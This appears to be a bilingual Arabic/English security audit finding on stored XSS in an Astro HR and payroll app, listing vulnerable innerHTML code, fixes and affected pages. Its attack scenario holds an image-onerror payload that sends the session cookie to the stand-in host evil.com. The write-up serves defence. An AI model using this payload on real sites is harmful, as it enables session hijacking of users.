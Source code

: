 **أمثلة / Examples:**
```typescript
// employees.astro (line 194-218)
innerHTML = employees.map(emp => `
  <tr>
    <td>${emp.employee_name}</td>  // ⚠️ غير آمن
    <td>${emp.national_id}</td>     // ⚠️ غير آمن
    <td>${emp.base_salary}</td>     // ⚠️ غير آمن
  </tr>
`).join('');

// payroll.astro (lines 304-316)
innerHTML = `<td>${employee.employeeName}</td>`; // ⚠️ غير آمن
```

**المشكلة / Issue:**
- استخدام `innerHTML` مع بيانات المستخدم مباشرة
- لا يوجد تنظيف للمدخلات (Sanitization)
- لا يوجد DOMPurify أو مكتبة مشابهة

**التأثير / Impact:**
- 🔴 **Stored XSS**: يمكن حقن JavaScript في قاعدة البيانات
- سرقة الجلسات (Session Hijacking)
- تنفيذ عمليات نيابة عن المستخدم
- CVSS Score: **8.8 (High)**

**السيناريو الهجومي / Attack Scenario:**
```javascript
// موظف يدخل اسمه كـ:
const name = '<img src=x onerror="fetch(`https://evil.com?cookie=${document.cookie}`)">';

// عند عرض الصفحة:
innerHTML = `<td>${name}</td>`; // تنفيذ الكود الخبيث
```

**الحل / Solution:**
```typescript
// الحل 1: استخدم textContent
element.textContent = emp.employee_name;

// الحل 2: استخدم DOMPurify
import DOMPurify from 'dompurify';
innerHTML = DOMPurify.sanitize(data);

// الحل 3: استخدم React/Astro بشكل صحيح
<td>{emp.employee_name}</td> // آمن تلقائيًا
```

**الصفحات المتأثرة / Affected Pages (17):**
1. advances-deductions.astro (lines 552-561, 622-641)
2. bonus.astro (lines 252-260, 347-373)
3. branches.astro (lines 178-234)
4. dashboard.astro (lines 323-335)
5. email-settings.astro (lines 372-376, 450-471)
6. employee-requests.astro (lines 201-214)
7. employees.astro (lines 194-218)
8. expenses.astro (lines 265-281)
9. manage-requests.astro (lines 244-259, 306)
10. my-requests.astro (lines 199-211, 244-269)
11. payroll.astro (lines 304-316, 412-428, 470-525)
12. product-orders.astro (lines 284-300, 484-540)
13. revenues.astro (lines 206-220)
14. users.astro (lines 344-374)
15. ai-assistant.astro (يستخدم textContent ✅ - آمن)
16. mcp-tools.astro (يستخدم textContent ✅ - آمن)
